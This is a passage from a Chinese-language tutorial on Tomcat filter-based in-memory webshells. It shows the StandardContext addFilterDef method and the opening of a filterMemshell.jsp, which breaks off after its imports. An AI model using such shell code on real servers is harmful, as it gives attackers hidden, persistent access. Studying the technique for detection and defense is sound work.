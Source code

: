 [![](assets/1701606655-68a0ed220d514987bd5548f25515e62f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231111135009-2ca9320e-8056-1.png)  
**filterDefs**  
在 StandardContext 中添加 filterDef 的方法

```plain
@Override
public void addFilterDef(FilterDef filterDef) {

    synchronized (filterDefs) {
        filterDefs.put(filterDef.getFilterName(), filterDef);
    }
    fireContainerEvent("addFilterDef", filterDef);

}
```

而 filterDefs 是从配置文件中解析得来的

### 4.4 Filter 内存马

filterMemshell.jsp:

```plain
<%--
Created by IntelliJ IDEA.
User: Dili
Date: 2023/9/18
Time: 16:30
To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>

<%
try {
    // 获取应用程序上下文对象 (ApplicationContextFacade)
    ServletContext servletContext = request.getSession().getServletContext();

```
